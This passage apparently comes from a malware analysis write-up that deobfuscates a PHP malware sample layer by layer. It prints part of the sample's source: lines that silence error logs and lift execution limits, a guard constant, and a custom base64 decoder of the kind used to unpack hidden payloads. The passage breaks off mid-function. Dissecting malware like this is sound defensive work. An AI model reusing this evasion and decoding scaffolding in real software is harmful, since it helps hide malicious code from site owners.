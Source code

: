 # Layer 3 - The Malware laid bare. Kind of.

The full function of the malware was now visible. Well, ish. The code had the same issue that disassemblers have in one regards. The variable and function names had been turned completely useless. They still did their function, they just didn't mean anything directly. Fortunately for us, parts of it can't be hidden. The built in function names are still there. This at least gives us a clue to the operation of the functions, and of course the variables that they act upon.

```PHP


@ini_set('error_log', NULL);
@ini_set('log_errors', 0);
@ini_set('max_execution_time', 0);
@error_reporting(0);
@set_time_limit(0);


if(!defined("PHP_EOL"))
{
    define("PHP_EOL", "\n");
}

if(!defined("DIRECTORY_SEPARATOR"))
{
    define("DIRECTORY_SEPARATOR", "/");
}

if (!defined('file_put_contents '))
{
    define('file_put_contents ', 1);

    $hxgqukcsofcc = '9ac350bf-7b05-4f25-8195-ce44380aafa9';
    global $hxgqukcsofcc;

    function ytkpmfs($uytczn) {

        if (strlen($uytczn) < 4)
        {
            return "";
        }

        $gncokyyz = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/=";

        $lchuml = str_split($gncokyyz);
        $lchuml = array_flip($lchuml);

        $fxffhl = 0;
        $exvpmz = "";

        $uytczn = preg_replace("~[^A-Za-z0-9\+\/\=]~", "", $uytczn);

        do {
            $xvucbwjn = $lchuml[$uytczn[$fxffhl++]];
            $mepije = $lchuml[$uytczn[$fxffhl++]];
            $sbhobs = $lchuml[$uytczn[$fxffhl++]];
            $uovgupr = $lchuml[$uytczn[$fxffhl++]];

            $uumyba = ($xvucbwjn << 2) | ($mepije >> 4);
            $qkplpbs = (($mepije & 15) << 4) | ($sbhobs >> 2);
            $altlvy = (($sbhobs & 3) << 6) | $uovgupr;
            $exvpmz = $exvpmz . chr($uumyba);
            if ($sbhobs != 64) {
```